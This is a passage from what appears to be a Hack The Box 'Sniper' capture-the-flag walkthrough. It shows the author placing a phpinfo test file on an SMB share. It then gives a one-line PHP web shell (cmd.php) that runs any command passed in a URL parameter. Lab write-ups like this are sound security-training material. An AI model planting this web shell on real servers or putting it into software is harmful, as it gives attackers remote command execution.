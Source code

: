 Let\'s put in the following file in that share and start the service.

```
echo '<?php phpinfo(); ?>' > info.php && systemctl start smbd
```

<a class="image-popup">
![e6415fb0.png](/assets/images/posts/sniper-htb-walkthrough/e6415fb0.png)
</a>

Awesome!

## Low-Privilege Shell

We should now be able to put in another PHP file that executes commands remotely.

<div class="filename"><span>cmd.php</span></div>

```php
<?php echo shell_exec($_GET[0]); ?>
```

<a class="image-popup">
![62f39630.png](/assets/images/posts/sniper-htb-walkthrough/62f39630.png)
</a>

And because there\'s HTML mixed inside the output, I wrote a simple bash script to tidy up the output.

<div class="filename"><span>tidy.sh</span></div>


[1]: https://www.hackthebox.eu/home/machines/profile/211
[2]: https://www.hackthebox.eu/home/users/profile/27390
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/